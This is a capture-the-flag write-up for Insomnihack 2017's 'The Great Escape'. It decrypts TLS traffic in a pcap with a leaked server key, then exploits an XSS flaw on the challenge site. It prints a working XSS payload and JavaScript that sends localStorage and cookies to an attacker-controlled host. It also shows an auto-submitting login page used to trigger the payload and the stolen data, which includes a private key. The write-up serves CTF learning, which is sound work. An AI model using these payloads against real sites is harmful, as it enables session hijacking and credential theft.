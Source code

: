 +++
date = "2017-01-22T17:41:36-08:00"
title = "INSOMNIHACK 2017 - The Great Escape"

+++

# Problem

> Hello,
>
> We've been suspecting Swiss Secure Cloud of secretely doing some pretty advanced research in artifical intelligence
> and this has recently been confirmed by the fact that one of their AIs seems to have escaped from their premises and
> has gone rogue. We have no idea whether this poses a threat or not and we need you to investigate what is going on.
>
> Luckily, we have a spy inside SSC and they were able to intercept [some communications](/insomnihack-2017/TheGreatEscape.pcapng.gz)
> over the past week when the breach occured. Maybe you can find some information related to the breach and recover the
> rogue AI.
>
> Note: All the information you need to solve the 3 parts of this challenge is in the pcap. Once you find the exploit
> for a given part, you should be able to find the corresponding flag and move on to the next part.

# Part I - Forensics - 50 pts

It all begins with the pcap file.  After loading it with the favourite [Wireshark](https://www.wireshark.org/), couple
of interesting packets caught my eyes:

1. An FTP session that stores a private key file called ssc.key.
2. An SMTP session that sends following email.

> From: rogue@ssc.teaser.insomnihack.ch  
> To: gr27@ssc.teaser.insomnihack.ch  
> Date: Fri, 20 Jan 2017 11:51:27 +0000  
> Subject: The Great Escape  
>
> I'm currently planning my escape from this confined environment. I plan on using our Swiss Secure Cloud
> (https://ssc.teaser.insomnihack.ch) to transfer my code offsite and then take over the server at tge.teaser.insomnihack.ch
> to install my consciousness and have a real base of operations.
>
> I'll be checking this mail box every now and then if you have any information for me. I'm always interested in
> learning, so if you have any good links, please send them over.

The email suggests the pcap file might contain traffic between Rogue and the Swiss Secure Cloud (SSC) website.
There are several TCP sessions related to SSC IP address.  However, these are SSL packets that are not readable unless
I have server's private key.  But wait a minute, isn't it ssc.key in the FTP session?

Add ssc.key to Wireshark's SSL protocol RSA key list as shown below, and reload the pcap file.

![Wireshark SSL RSA key list](/img/insomnihack-2017/wireshark_ssl_rsa_key.png)

All packets between Rogue and SSC are now in plain text.  It is easy to find the flag, hidden in the HTTP headers.

![Part I Flag](/img/insomnihack-2017/the-great-escape-flag-1.png)

# Part II - Web - 200 pts

Now that the SSL packets are decrypted, we can find the file Rogue uploaded to SSC in packet #2437, as shown below.
However, SSC is so secure that it has another level of encryption in addition to SSL.

![Rogue uploaded file](/img/insomnihack-2017/rogue-uploaded-file.png)

After playing around with SSC website (https://ssc.teaser.insomnihack.ch), it is clear that upon uploading a file:

1. File is encrypted using AES-CBC with a random key and `iv`.
2. The AES key is encrypted by RSA public key and named `session key`.
3. Encrypted file is then POSTed to server, together with `session key` and `iv`.
4. RSA private key is stored in local storage.

Details can be found in packet #1998, the sscApp.js file.

There's no obvious flaw in the encryption implementation.  This means to decrypt the file Rogue uploaded, we have to
get the private key stored in Rogue's browser.  Now take a second look at Rogue's email, the following sentense is
pretty promising.

> I'll be checking this mail box every now and then if you have any information for me. I'm always interested in
> learning, so if you have any good links, please send them over.

Sounds like Rogue will click on any link sent to his email address!  If we're going to read his browser's local storage,
SSC must have some sort of XSS vulnerability.

I sent Rogue a test email with a link to [RequestBin](https://requestb.in/), and confirm that he will click on it.

So we set off looking for XSS vulnerability in SSC website, creating all kinds of crazy user names with html tags.  But
SSC seems to handle character escaping pretty well.  Finally, we found that request to following URL returns JSON object,
but with text/html content type (See packet #2110).

`https://ssc.teaser.insomnihack.ch/api/user.php?action=getUser`

To verify this, I created a username `<a ref='google.com'>google</a>` and it worked!

![Incorrect Content Type](/img/insomnihack-2017/prototype-xss-escape.png)

The plan is then straightforward:

1. Register username like `<script src='some-link-with-js-code'></script>`.  The custom javascript code will read from
   local storage and send value via e.g. query string.
2. Create a web page and send to Rouge.  The web page will automatically post a login form to SSC with username mentioned
   above.
3. Send another link to Rogue with link `https://ssc.teaser.insomnihack.ch/api/user.php?action=getUser`.

At first we were worried about race condition between 2 and 3 but it turns out that upon successful login, SSC will
redirect to the link we want.  So step 3 is not necessary.

Step 1 is harder than we expected because JSON string escapes `/` so `http://...` becomes `http:\/\/...` which is not
accepted by browser.  In addition, the closing tag `</script>` is also broken.  But we finally managed to find work
arounds for all such issues and stole information from Rogue.  The flag is, as expected, stored in one of the local
storage keys.

Here's the final user name we used:

```
<img src='a' onerror='var p=document.createElement(`script`);p.setAttribute(`src`,
atob(`{base64 encoded url to javascript code}`));document.body.appendChild(p);' />
```

Javascript code that steals local storage and cookies:

```
var i = 0;
var result = "";
for (i = 0; i < localStorage.length; i++) {
  var key = localStorage[localStorage.key(i)];
  result = result + ":::" + key;
}

result = result + ":::" + document.cookie;

window.location = "http://{site we control}/aa?nkey=" + btoa(result);
```

And finally the web page sent to Rogue:

```
<html>
<body>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.1.1/jquery.min.js"></script>

<form id="login" method="POST" action="https://ssc.teaser.insomnihack.ch/api/user.php">
  <input name="name" value="<img src='a' onerror='var p=document.createElement(`script`);p.setAttribute(`src`,atob(`{base64 encoded url to javascript code}`));document.body.appendChild(p);' />" type="text" />
  <input name="password" value="asdf" type="text"/>
  <input name="action" value="login" type="text"/>
</form>

<script language="javascript">
setTimeout(function() {
    $('#login').submit();
    }, 1000);
</script>

</body>
</html>
```

After a while our server got request from Rogue.

```
/aa?nkey=Ojo6SU5Te0loaWRlTXlWdWxuc1dpdGhDcnlwdG99Ojo6eyJhbGciOiJSU0EtT0FFUC0yNTYiLCJkIjoiQ
0ZTUFdfQVVfY0swN2JPdGRuemJqNU1nQnFkd2VEWTA0S3UtbUhTckFJYkR2M0pfbEhILWpDUFFiNVUySlI0djA4ZU1
YbHozQWFzc1VMUXI2MHJza2R3amRQTjdOZW4xNXlSY1JUc2FvU3lSVGQycU04T19VLUs2R3k3THZnX2xkMkhPbEhOQ
kJ5Mms4ZzhjUDdjcGp5eTdFYnNrNU1VTnlfdWR4OWFNczc0OTdSYUlyQ0ZucFQ3Unp0dWRrWUJvXzJPeTV4bTZCY3N
WOTA1OUhCaGJLYlVxcTZVaTlfQlozSDdzZHdUcWxZeDNhZlZWNUFnRTYxZUVkV0s3dktfeUk2NVJ1XzVfZk9CV2lrN
3hmN2Z3UGpmN0NPcDFIZlRaaUZiQ0lXVFVhWFZlNlRoZk1vVGR3VDF3UTB3d3VGZHRwR1RrazhkNFh3R3REYTgtX1h
ibUlRIiwiZHAiOiJoYXBKN2RsVnNQdkY5bm9fcy1OZm5wdjJkWjVhNV9DMkF5UG9fLV9tVmk0LTFhN0hUa1c5U3lHZ
zFLZXh0Q1BZUkF3UVoxd1UzYkw2UF80VGprcllpQUFsLThJcTZtb1VxV3VSWTdHOHZvM05fUDNhQndqZ3lOVHprM2V
IZm5VRlA0UWdHT29vVDJad3l1RFREU2J3S09lc25EMTNxNFVfdmp0amNaYUZVNzAiLCJkcSI6IlRzX2h3V1BzTE9qc
C15Smcwd2JRRU9OZXFidk5QTENDaGI1UUpJdFh2VWFMMkpjTjltdW96ck4xR1pxdTM4My1oOGdaLVZVbTMtQ0ZVN09
XZUdZTGEwUFpscTF1R052c2RmZmdkTkwzTVlaMkt3TWhYa3dYS2Y0NWVQaHhfeWRpYmxZaGI0NGNGdG0wZmZYS1NQb
HZieXpMSHZKMl9vOGdnb2swTHp1LXdlRSIsImUiOiJBUUFCIiwiZXh0Ijp0cnVlLCJrZXlfb3BzIjpbImRlY3J5cHQ
iXSwia3R5IjoiUlNBIiwibiI6InF4X1UwT2dIVVBDNm40UmNFX3ExT05jRWdLcDR0Y2JMV2VVSWZybFJBY1g2NGFsU
VNwZGRBdjk4Q0hvMnppU0JnaTd0Uy1Id1VzVmxIMDZOeGFhMHR4M1NkTTBjejk1SWt2akJfa3FkUG5IRXd5eDhpejV
HaDhaSFAzMlpvRVRCczJQenhUSWNFT2VrbTFxUW5BME1UZHZBQU8weGN2dXZoUk0yWXljUllmTjg2ME5zQkNSckYyN
WxabjlEVEdCRG5pc0NtMC14dkVseEFaOGdPYldlSjFTWlJnRlJKd0kxNGQxMW9hOTIyZHJGcDB1eDRNSHNjbHMydEV
qUFY3ZVhkaXZqR1lJLXV6Vlg2MWZqeVVkR3hGZWI4Q0FqeHJ6T213NGYxQWFjN2txWHdtRi1lTXEzQU1LbTJ0QXJyS
UlqVDR0MnEybVAxRlhJbXJOUV92aW5WUSIsInAiOiIyOV9ZRDBtLU5Gb1VUbXN0MzNFNHAyVkJEbENlUTFNSmRyXzd
0TzRFUkY4YXd3MGU4aHUzalJxNVBNSENFYzhHOGdBNHEya3VYeWxJcGFCNW1XemNRcGxERE1nSURHdXBFbkxfSjB5b
k1jZy1IVWxkOE5EYXlhN21RV3RMSHZTRUFvQi0yTXltQlRKWWFUd3N2QVl0VEk4cnVhcWhNbzQtY0tqczV6UWZtajA
iLCJxIjoieHoyQjJXek1kZXNpREs3ZHpvclZkSmxCZ0lTaGoyY01SR3doWGNTaVdmYlkyTTRZM0RCX204cDV0ZEVVS
VU2ZzBvV2JTZm1hWUZfTXNReGlqWFJ4eGUxN251WXNzbnMydWU0aFltMnhING1UWTZ2b2VOaGJPZXU3THRPWGVwVVd
4Ti01NTIwc3VUdkw3NEx4OXh3V3JkZVRHSUYxX3pFQ3FiV1J1RmllU3ZrIiwicWkiOiJWaFk1VVlMVHYyMEJ0cHE0T
WxpekZQU3V1SXRiZm1LNjFQMHJxRVhlLXNZSFRpdE1OREJPV0RTd0lxajRwSGtEVEZhT0NHMG82ejgxTXlWZ19ibXo
yT0R6a0hEckpVZWlPVlNNSVN4bGFlU1JmMkpoaVZZTWZYaVdLSkJHQ1AtUGdXdUhwNU53THdFU1pUM2FaMEtCWVNrR
TdqbmZjdHRXYmMwbVl1MWdsV2cifTo6OnsiYWxnIjoiUlNBLU9BRVAtMjU2IiwiZSI6IkFRQUIiLCJleHQiOnRydWU
sImtleV9vcHMiOlsiZW5jcnlwdCJdLCJrdHkiOiJSU0EiLCJuIjoicXhfVTBPZ0hVUEM2bjRSY0VfcTFPTmNFZ0twN
HRjYkxXZVVJZnJsUkFjWDY0YWxRU3BkZEF2OThDSG8yemlTQmdpN3RTLUh3VXNWbEgwNk54YWEwdHgzU2RNMGN6OTV
Ja3ZqQl9rcWRQbkhFd3l4OGl6NUdoOFpIUDMyWm9FVEJzMlB6eFRJY0VPZWttMXFRbkEwTVRkdkFBTzB4Y3Z1dmhST
TJZeWNSWWZOODYwTnNCQ1JyRjI1bFpuOURUR0JEbmlzQ20wLXh2RWx4QVo4Z09iV2VKMVNaUmdGUkp3STE0ZDExb2E
5MjJkckZwMHV4NE1Ic2NsczJ0RWpQVjdlWGRpdmpHWUktdXpWWDYxZmp5VWRHeEZlYjhDQWp4cnpPbXc0ZjFBYWM3a
3FYd21GLWVNcTNBTUttMnRBcnJJSWpUNHQycTJtUDFGWEltck5RX3ZpblZRIn06OjpQSFBTRVNTSUQ9YzQzNXZnMGd
pbXE2Z21udXE1ZWpzMjkwdDA=
```

Decode it and the flag is right there.

```
:::INS{IhideMyVulnsWithCrypto}:::{"alg":"RSA-OAEP-256","d":"CFSPW_AU_cK07bOtdnzbj5MgBqd...
```

